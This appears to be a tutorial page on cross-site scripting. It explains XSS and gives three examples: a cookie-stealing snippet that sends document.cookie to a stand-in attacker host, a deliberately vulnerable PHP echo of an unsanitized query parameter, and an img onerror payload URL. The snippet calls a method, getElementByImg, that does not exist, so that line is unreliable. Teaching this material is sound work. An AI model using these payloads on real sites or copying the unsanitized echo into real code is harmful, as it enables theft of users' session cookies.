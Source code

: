 
# xss

## Input validation attacks

xss is a type of input validation attack that can subvert an applications behaviour or functionality if the application does not sanitize malicious user input. xss is deemed a client side attack because it makes the users of a website vulnerable not the website itself.

## Cross site scripting (xss)

Cross site scripting is one of the oldest web application attacks dated to 1996-1998 when is was possible to control frames within a web page through injected code.

This injected code can "cross" website boundaries hence the phrase cross site scripting. A successful cross site scripting attack is able to inject HTML (HTML injection) or run code (javascript) in other peoples browser.

xss affects the *users* of a website, not the website itself. The xss payload executes within the browser of the user interacting with the page. This gives the javascript access to anything the page is doing... this can result in information theft eg. cookie theft...

```
var img = document.getElementByImg('some_img')
img.src = 'http://attackermachine.net?cookie='+document.cookie
```

## Example xss

Vulnerable code takes the name parameter from the URL querystring.

```
<?php
    echo '<h5> hello ' . $_GET['name'] . '</h4>';
?>
```

## Example exploitation

You may need to URL-encode the xss payload... the browser will do this for you in this case...

```
http://vulnerable.com/welcome.php?name=<img src="monz" onerror="alert(1)" />
```

## Why does xss happen?

The user input is shown without sanitization (either during the input or when being displayed).

The users input is assumed to *data* not *code*... allowing users to submit their own code to your website or in some cases in the context of other users (potentially gaining access to sensitive user information) as an unintended side effect!
